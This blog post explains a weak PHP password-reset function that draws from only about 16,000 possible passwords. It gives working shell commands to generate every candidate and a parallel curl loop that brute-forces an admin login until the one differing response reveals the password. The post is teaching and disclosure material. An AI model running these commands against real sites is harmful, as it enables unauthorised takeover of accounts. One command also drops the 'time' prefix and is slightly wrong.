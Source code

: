 ```yaml
---
id: 1059
title: Hacking crappy password resets (part 2)
date: '2011-03-15T08:09:41-05:00'
author: ron
layout: post
guid: http://www.skullsecurity.org/blog/?p=1059
permalink: "/2011/hacking-crappy-password-resets-part-2"
categories:
- hacking
- passwords
- tools
comments_id: '109638357416234279'

---
```


Hey,

In my <a href='/blog/2011/hacking-crappy-password-resets-part-1'>last post</a>, I showed how we could guess the output of a password-reset function with a million states. While doing research for that, I stumbled across some software that had a mere 16,000 states. I will show how to fully compromise this software package remotely using the password reset. 
<!--more-->
<h2>The code</h2>
First, let's take a look at the code:
<pre>
<font color="#ffa500">&lt;?php</font><br>
&nbsp;&nbsp;<font color="#ffff60"><b>if</b></font>&nbsp;<font color="#ffa500">(</font><font color="#40ffff">strtolower</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">cfgrow</font><font color="#ffa500">[</font>'<font color="#ffa0a0">email</font>'<font color="#ffa500">])</font><font color="#ffff60"><b>==</b></font><font color="#40ffff">strtolower</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">_POST</font><font color="#ffa500">[</font>'<font color="#ffa0a0">reminderemail</font>'<font color="#ffa500">]))</font><br>
&nbsp;&nbsp;<font color="#ffa500">{</font><br>
&nbsp;&nbsp;&nbsp;&nbsp;<font color="#80a0ff">// generate a random new pass</font><br>
&nbsp;&nbsp;&nbsp;&nbsp;<font color="#ffff60"><b>$</b></font><font color="#40ffff">user_pass</font>&nbsp;<font color="#ffff60"><b>=</b></font>&nbsp;<font color="#40ffff">substr</font><font color="#ffa500">(</font>&nbsp;<font color="#40ffff">MD5</font><font color="#ffa500">(</font>'<font color="#ffa0a0">time</font>'&nbsp;<font color="#ffff60"><b>.</b></font>&nbsp;<font color="#40ffff">rand</font><font color="#ffa500">(</font><font color="#ffa0a0">1</font>, <font color="#ffa0a0">16000</font><font color="#ffa500">))</font>, <font color="#ffa0a0">0</font>, <font color="#ffa0a0">6</font><font color="#ffa500">)</font>;<br>
&nbsp;&nbsp;&nbsp;&nbsp;<font color="#ffff60"><b>$</b></font><font color="#40ffff">query</font>&nbsp;<font color="#ffff60"><b>=</b></font>&nbsp;&quot;<font color="#ffa0a0">update config set password=MD5('</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">user_pass</font><font color="#ffa0a0">') where [...]</font>&quot;<br>
&nbsp;&nbsp;&nbsp;&nbsp;<font color="#ffff60"><b>if</b></font><font color="#ffa500">(</font><font color="#40ffff">mysql_query</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">query</font><font color="#ffa500">))</font><br>
&nbsp;&nbsp;&nbsp;&nbsp;<font color="#ffa500">{</font><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <font color="#80a0ff">// ...</font><br>
<font color="#ffa500">?&gt;</font><br>
</pre>

<h2>The vulnerability</h2>
The vulnerability lies in the password generation:
<pre>&nbsp;&nbsp;&nbsp;&nbsp;<font color="#ffff60"><b>$</b></font><font color="#40ffff">user_pass</font>&nbsp;<font color="#ffff60"><b>=</b></font>&nbsp;<font color="#40ffff">substr</font><font color="#ffa500">(</font>&nbsp;<font color="#40ffff">MD5</font><font color="#ffa500">(</font>'<font color="#ffa0a0">time</font>'&nbsp;<font color="#ffff60"><b>.</b></font>&nbsp;<font color="#40ffff">rand</font><font color="#ffa500">(</font><font color="#ffa0a0">1</font>, <font color="#ffa0a0">16000</font><font color="#ffa500">))</font>, <font color="#ffa0a0">0</font>, <font color="#ffa0a0">6</font><font color="#ffa500">)</font>;<br></pre>

The new password generated is the md5() of the literal string 'time' (*not* the current time, the *word* "time") concatenated with one of 16,000 random numbers, then truncated to 6 bytes. We can very easily generate the complete password list on the commandline:
<pre>$ seq <font color="#ffa0a0">1</font>&nbsp;<font color="#ffa0a0">16000</font>&nbsp;| xargs <font color="#ffa500">-I</font>&nbsp;XXX sh <font color="#ffa500">-c</font>&nbsp;<font color="#ffff60"><b>&quot;</b></font><font color="#ffa0a0">echo timeXXX | md5sum | cut -b1-6</font><font color="#ffff60"><b>&quot;</b></font></pre>

or, another way:
<pre>$ <font color="#ffff60"><b>for </b></font>i <font color="#ffff60"><b>in</b></font>&nbsp;<font color="#ffa500">`seq </font><font color="#ffa0a0">1</font><font color="#ffa500">&nbsp;</font><font color="#ffa0a0">16000</font><font color="#ffa500">`</font>; <font color="#ffff60"><b>do</b></font>&nbsp;<font color="#ffff60"><b>echo</b></font><font color="#ffa0a0">&nbsp;</font><font color="#ffff60"><b>&quot;</b></font><font color="#ffa0a0">time</font><font color="#ff80ff">$i</font><font color="#ffff60"><b>&quot;</b></font><font color="#ffa0a0">&nbsp;</font><font color="#ffff60"><b>|</b></font>&nbsp;md5sum <font color="#ffff60"><b>|</b></font>&nbsp;cut -b1<font color="#ffa0a0">-6</font><br></pre>

(By the way, for more information on using xargs, check out a really awesome blog posting called <a href='http://teddziuba.com/2010/10/taco-bell-programming.html'>Taco Bell Programming</a> - it's like real programming, but you can't legally call it "beef")

In either case, you'll wind up with 16,000 different passwords in a file. If you want to speed up the eventual bruteforce, you can eliminate collisions:
<pre>$ seq 1 16000 | xargs -I XXX sh -c "echo XXX | md5sum | cut -b1-6" | sort | uniq</pre>

If you do that, you'll wind up with 15,993 different passwords, ranging from '000b64' to 'fffcc0'. Now all that's left is to try these 15,993 passwords against the site! 

<h2>The attack</h2>
You can do this attack any number of ways. You can script up some Perl/Ruby/PHP, you can use a scanner like Burp Suite, or, if you're feeling really adventurous, you can write a quick config file for <a href='http://nmap.org/svn/scripts/http-enum.nse'>http-enum.nse</a>. If anybody takes the time to replicate this with http-enum.nse, you'll win an Internet from me. I promise. 

But why bother with all these complicated pieces of software when we have bash handy? All we need to do is try all 15,993 passwords using wget/curl/etc and look for the one page that's different. Done! 

So, to download a single page, we'd use:
<pre>$ curl <font color="#ffa500">-s</font>&nbsp;<font color="#ffa500">-o</font>&nbsp;XXX.out <font color="#ffa500">-d</font>&nbsp;<font color="#ffff60"><b>&quot;</b></font><font color="#ffa0a0">user=admin&amp;password=XXX</font><font color="#ffff60"><b>&quot;</b></font>&nbsp;<font color="#ffff60"><b>&lt;</b></font>site<font color="#ffff60"><b>&gt;</b></font>/admin/?<font color="#40ffff">x</font>=login<br>
</pre>

This will create a file called XXX.out on the filesystem, which is the output from a login attempt with the password XXX. Now we use xargs to do that for every password:
<pre>$ cat passwords.txt | xargs <font color="#ffa500">-P32</font>&nbsp;<font color="#ffa500">-I</font>&nbsp;XXX curl <font color="#ffa500">-s</font>&nbsp;<font color="#ffa500">-o</font>&nbsp;XXX.out <font color="#ffff60"><b>\</b></font><br>
&nbsp;&nbsp;<font color="#ffa500">-d</font>&nbsp;<font color="#ffff60"><b>&quot;</b></font><font color="#ffa0a0">user=admin&amp;password=XXX</font><font color="#ffff60"><b>&quot;</b></font>&nbsp;<font color="#ffff60"><b>&lt;</b></font>site<font color="#ffff60"><b>&gt;</b></font>/admin/?<font color="#40ffff">x</font>=login<br>
</pre>

Which will, in 32 parallel processes, attempt to log in with each password and write the result to a file named &lt;password&gt;.out. Now all we have to do figure out which one's different! After waiting for it to finish (or not.. it takes about 5-10 minutes), I check the folder:

<pre>$ md5sum *.out | head 
96ffbb1ba380de9fc9e7a3fe316ff631  000176.out
96ffbb1ba380de9fc9e7a3fe316ff631  0014c2.out
96ffbb1ba380de9fc9e7a3fe316ff631  001e7e.out
96ffbb1ba380de9fc9e7a3fe316ff631  002035.out
96ffbb1ba380de9fc9e7a3fe316ff631  00217c.out
96ffbb1ba380de9fc9e7a3fe316ff631  002c47.out
96ffbb1ba380de9fc9e7a3fe316ff631  003b9e.out
96ffbb1ba380de9fc9e7a3fe316ff631  004bff.out
96ffbb1ba380de9fc9e7a3fe316ff631  0057b8.out
96ffbb1ba380de9fc9e7a3fe316ff631  008dea.out</pre>

Sure enough, it's tried all the passwords and they all seemed to download the same page! Now we use grep -v to find the one and only download that's different:
<pre>$ md5sum *.out | grep -v 96ffbb1ba380de9fc9e7a3fe316ff631
d41d8cd98f00b204e9800998ecf8427e  b19261.out</pre>

And bam! We now know the password is "b19261". 

<h2>Conclusion</h2>
So there you have it - abusing a password reset to log into an account you shouldn't. And remember, even though we didn't test this with 1,000,000 possible passwords like last week's blog, it would only take about 60 times as long - so instead of a few minutes, it'd be a few hours. And as I said last week, that million-password reset form was actually pretty common. 

And in case you think this is hocus pocus or whatever, I wrote the code shown here live, on stage, at Winnipeg Code Camp. It's towards the end of <a href='http://vimeo.com/20718776'>my talk</a>.
